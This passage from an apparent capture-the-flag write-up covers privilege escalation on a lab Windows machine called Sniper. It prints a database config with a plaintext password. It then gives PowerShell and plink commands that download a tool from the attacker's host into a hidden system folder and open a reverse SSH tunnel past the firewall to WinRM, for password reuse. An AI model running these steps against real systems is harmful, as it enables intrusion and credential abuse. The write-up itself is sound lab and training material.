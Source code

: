 ![Image](./img/sniper_web_exploit_3.png)
  
## Privilege Escalation

### WinRM - Firewall Evasion

Now that I have a shell as `NT Authority\iusr` I'll begin enumerating the host, including checking permissions and configurations. I managed to find a few interesting things... Firstly, the other application **/user** picked up before with gobuster had a database config file in its root directory with credentials. The file was located at `C:\inetpub\wwwroot\user\db.php`

```php
<?php
// Enter your Host, username, password, database below.
// I left password empty because i do not set password on localhost.
$con = mysqli_connect("localhost","dbuser","36mEAhz/B8xQ~2VM","sniper");
// Check connection
if (mysqli_connect_errno())
  {
  echo "Failed to connect to MySQL: " . mysqli_connect_error();
  }
?>
```

Host enumeration also shows the machine listening on port 5985, meaning Windows Remote Management/PSRemoting is probably enabled but blocked at the firewall. This would explain why nmap didn't reprot 5985 as open in my earlier scan. 

![Image](./img/sniper_privesc_enum_1.png)

Putting all of this information together gives me a path to attempt escalation. Using my existing shell, I can upload a tool to port-forward, creating a reverse tunnel back to my kali VM. Once the tunnel is established, I can test the password I've found against existing user accounts to see if I can escalate to a regular user. `net user` showed only one other local user account besides Administrator: **Chris**, so I'll check if he's re-used his password. The steps are as follows:

1. Create a dummy user on my kali VM to be the ssh target for my reverse tunnel, then start sshd.
    - `useradd -s /bin/rbash -d /home/pleb pleb`
    - `service ssh start`
    - I also need to set a password for our new pleb user: `passwd pleb`
2. Set up a HTTP server to send my tunneling tool. For tunnelling, I'll be using plink.exe (the CLI version of putty). Another option for tunnelling would have been executing meterpreter and using its `portfwd` command. 
    - `cp /usr/share/windows-resources/binaries/plink.exe .`
    - `python -m SimpleHTTPServer 80`
3. Use my existing shell to download plink.exe and create a reverse SSH tunnel. The tunnel will forward all TCP traffic outbound from my Kali VM on port 5985 to Sniper's TCP port 5985 through the ssh session and via Sniper's loopback address - therefore bypassing the 'block inbound' rule. Tunnelling this way can sometimes be conceptually confusing at first, so here's a good reference :) https://0xdf.gitlab.io/2019/01/28/pwk-notes-tunneling-update1.html
    - (From Sniper) `Powershell Invoke-WebRequest -URI http://10.10.14.8/plink.exe -OutFile C:\Windows\System32\Spool\Drivers\Color\plink.exe`
    - `C:\Windows\System32\Spool\Drivers\Color\plink.exe -l pleb -pw Test123! -R 5985:127.0.0.1:5985 10.10.14.8` 
    - Here's where I'm at so far:
    ![Image](./img/sniper_privesc_tunnel.png)
4. Now to try Powershell Remoting through my tunnel from Kali. There are a few ways to do this and in another post I'll show the use of [evil-winrm](https://github.com/Hackplayers/evil-winrm), but for now I'll just use a simple ruby script that I found [here](https://alionder.net/winrm-shell/).
    - First, install the package ruby needs for the script to run `gem install winrm` ... easy!
    - Then edit the IP address and credentials in the script which should look like this:
    